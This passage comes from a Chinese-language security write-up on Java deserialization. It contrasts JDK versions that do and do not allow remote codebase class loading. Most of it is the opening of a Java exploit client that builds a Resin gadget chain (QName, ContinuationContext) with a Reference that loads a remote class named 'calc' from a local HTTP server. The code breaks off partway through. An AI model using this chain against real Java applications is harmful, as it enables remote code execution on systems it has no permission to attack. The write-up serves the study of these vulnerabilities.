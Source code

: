 高版本JDK默认不开启codebase（`trustURLCodebase`为`false`），这里也就无法通过URLClassLoader加载远程类了。

![image-20231022103658728](./../.gitbook/assets/image-20231022103658728.png)

对于低版本JDK，就少了codebase这部分判断，直接远程加载类。

![image-20231022104022051](./../.gitbook/assets/image-20231022104022051.png)

```java
import com.caucho.naming.QName;
import com.sun.org.apache.xpath.internal.objects.XString;

import javax.naming.CannotProceedException;
import javax.naming.Context;
import javax.naming.Reference;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Hashtable;

public class Client {
    public static void setFieldValue(Object obj, String fieldName, Object newValue) throws Exception {
        Class clazz = obj.getClass();
        Field field = clazz.getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, newValue);
    }
    public static void main(String[] args) throws Exception {
        XString xString = new XString("p4d0rn");
        Class contextClass = Class.forName("javax.naming.spi.ContinuationContext");
        Constructor constructor = contextClass.getDeclaredConstructor(CannotProceedException.class, Hashtable.class);
        constructor.setAccessible(true);
        CannotProceedException cpe = new CannotProceedException();
        cpe.setResolvedObj(new Reference("calc", "calc", "http://127.0.0.1:8088/"));
        Context context = (Context) constructor.newInstance(cpe, new Hashtable());
        QName qName = new QName(context, "x", "y");
```